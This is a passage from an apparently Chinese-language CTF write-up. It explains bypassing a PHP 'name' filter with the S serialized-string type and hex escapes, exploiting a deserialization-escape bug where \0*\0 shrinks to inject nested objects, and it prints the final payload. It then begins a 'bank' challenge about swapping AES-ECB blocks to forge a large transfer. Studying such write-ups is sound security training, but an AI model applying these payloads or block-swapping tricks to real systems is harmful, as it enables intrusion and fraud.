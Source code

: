 ```php
function check($data)
{
    if(stristr($data, 'name')!==False){
        die("Name Pass\n");
    }
    else{
        return $data;
    }
}
```

这个要求序列化后的数据里不能出现 name，这里可以用`S`的类型绕过，将`s:4:"name"`转换成`S:4:"\6eame"`，即可绕过检查

最后一个点是反序列化逃逸

```php
function read($data){
    $data = str_replace('\0*\0', chr(0)."*".chr(0), $data);
    return $data;
}
function write($data){
    $data = str_replace(chr(0)."*".chr(0), '\0*\0', $data);
    return $data;
}
```

又是喜闻乐见的修改序列化数据，如果在序列化之前加入一个`\0*\0`，在经过 read 函数时就会被解码缩小，但是我们一般的反序列化逃逸是通过膨胀实现的，在仔细观察后，发现他有 user、pass 两个输入点，所以可以在 user 字段中添加`\0*\0`，导致 user 字段收缩，吃掉后面的 pass 定义，把我构造的序列化数据露出来

最后的 paylaod

```
O:6:"player":3:{s:7:"\0*\0user";s:56:"\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\";s:7:"\0*\0pass";s:134:";s:4:"test";O:7:"topsolo":1:{S:7:"\0*\0\6eame";O:7:"midsolo":2:{S:7:"\0*\0\6eame";O:6:"jungle":1:{S:7:"\0*\0\6eame";s:7:"Lee Sin";}}}}";s:8:"\0*\0admin";i:0;}
```

## bank

开始是一个 PoW，爆就完事儿了

输入用户名，之后能转账、查看记录、接收记录、查看 hint

根据 hint

```python
def transact_ecb(key, sender, receiver, amount):
    aes = AES.new(key, AES.MODE_ECB)
    ct = b""
    ct += aes.encrypt(sender)
    ct += aes.encrypt(receiver)
    ct += aes.encrypt(amount)
    return ct
```

他将数据逐个加密，拼接成一个整体，那么应该可以将自己的名字设置为 1000，然后将`sender`那个块放在`amount`的位置，应该可以实现转账一个很大的数
